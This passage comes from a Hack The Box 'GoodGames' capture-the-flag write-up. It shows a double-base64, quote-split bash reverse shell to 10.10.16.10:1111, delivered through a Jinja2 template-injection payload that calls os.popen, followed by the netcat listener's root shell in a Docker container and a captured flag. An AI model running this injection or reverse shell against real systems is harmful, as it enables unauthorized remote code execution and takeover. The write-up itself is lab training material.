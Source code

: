 
### Shell as root in docker container

Generate reverse shell payload

```bash
┌──(bravosec㉿fsociety)-[~/htb/GoodGames]
└─$ echo "echo $(echo 'bash -i >& /dev/tcp/10.10.16.10/1111 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0eE1DOHhNVEV4SURBK0pqRUsK|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h
```

Send Payload

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen("echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0eE1DOHhNVEV4SURBK0pqRUsK|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h").read() }}
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/GoodGames]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.16.10] from (UNKNOWN) [10.129.69.232] 38444
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# ^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/htb/GoodGames]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111

root@3a453ab39d3d:/backend# export TERM=xterm
root@3a453ab39d3d:/backend# id
id
uid=0(root) gid=0(root) groups=0(root)
```

```bash
root@3a453ab39d3d:/backend# cat /root/root.txt
cat: /root/root.txt: No such file or directory
root@3a453ab39d3d:/backend# ls -la /home
total 12
drwxr-xr-x 1 root root 4096 Nov  5  2021 .
drwxr-xr-x 1 root root 4096 Sep 22 07:26 ..
drwxr-xr-x 2 1000 1000 4096 Nov  3  2021 augustus
root@3a453ab39d3d:/backend# cat /home/augustus/user.txt
df0fc7b00a87b73fa4960385908e14cf
```

Since the hostname looks like container-generated, check if current environment is in docker

```bash
root@3a453ab39d3d:/backend# ls -latr /|grep .docker
-rwxr-xr-x   1 root root    0 Nov  5  2021 .dockerenv
```
